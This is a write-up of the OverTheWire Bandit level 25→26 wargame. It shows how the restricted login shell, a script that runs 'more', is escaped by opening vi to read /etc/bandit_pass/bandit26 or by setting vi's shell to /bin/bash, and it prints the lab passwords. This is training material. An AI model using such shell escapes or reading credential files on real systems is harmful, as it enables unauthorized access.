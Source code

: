 # Bandit Level 25 → Level 26

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

### Solution:

From the previous level, we have the password:

**Password:** iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

To SSH into the server, use the following command:

**Command:**

ssh [bandit25@bandit.labs.overthewire.org](mailto:bandit1@bandit.labs.overthewire.org) -p 2220

enter the password: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

Solution 1: through a text editor exploiting more

bandit25@bandit:~$ ls -al
total 40
drwxr-xr-x  2 root     root     4096 Jul 17 15:57 .
drwxr-xr-x 70 root     root     4096 Jul 17 15:58 ..
-rw-r-----  1 bandit25 bandit25   33 Jul 17 15:57 .bandit24.password
-r--------  1 bandit25 bandit25 1679 Jul 17 15:57 bandit26.sshkey
-rw-r-----  1 bandit25 bandit25  151 Jul 17 15:57 .banner
-rw-r--r--  1 root     root      220 Mar 31 08:41 .bash_logout
-rw-r--r--  1 root     root     3771 Mar 31 08:41 .bashrc
-rw-r-----  1 bandit25 bandit25   66 Jul 17 15:57 .flag
-rw-r-----  1 bandit25 bandit25    4 Jul 17 15:57 .pin
-rw-r--r--  1 root     root      807 Mar 31 08:41 .profile

andit25@bandit:~$ cat /etc/passwd | grep "bandit26"
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0

bandit25@bandit:~$ ssh -i bandit26.sshkey [bandit26@bandit.labs.overthewire.org](mailto:bandit26@bandit.labs.overthewire.org) -p 2220

using editor

v

:e /etc/bandit_pass/bandit26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Solution 2: start a shell with bash interpreter

again enter text editor using v

:set shell=/bin/bash  (enter)

:shell (enter) (starts a shell)

bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ